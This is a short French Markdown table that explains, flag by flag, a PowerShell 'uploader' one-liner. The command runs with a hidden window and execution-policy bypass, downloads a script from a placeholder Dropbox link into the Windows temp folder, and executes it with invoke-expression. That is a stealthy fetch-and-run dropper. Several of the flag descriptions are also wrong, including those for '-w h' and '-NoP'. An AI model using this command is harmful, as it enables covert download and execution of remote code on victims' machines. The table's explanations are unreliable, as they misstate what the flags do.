 # Paramètres et description de l'uploader

| Paramètre         | Description |
| ----------------- | ----------- |
| `powershell`      | Commande pour lancer Windows PowerShell |
| `-w h`            | Définit la largeur du terminal à une hauteur maximale |
| `-NoP`            | Désactive la protection du script |
| `-NonI`           | Désactive les interactions de l'interface utilisateur |
| `-Exec Bypass`    | Autorise l'exécution de scripts non signés |
| `iwr`             | Alias pour Invoke-WebRequest pour télécharger le fichier |
| `https://www.dropbox.com/s/yourshare_url?dl=1` | URL pour télécharger le fichier script |
| `-o "c:\windows\temp\your_script_name.ps1"` | Spécifie l'emplacement où le fichier script doit être enregistré |
| `invoke-expression` | Exécute un script PowerShell |
| `"c:\windows\temp\your_script_name.ps1"` | Emplacement du fichier script téléchargé |
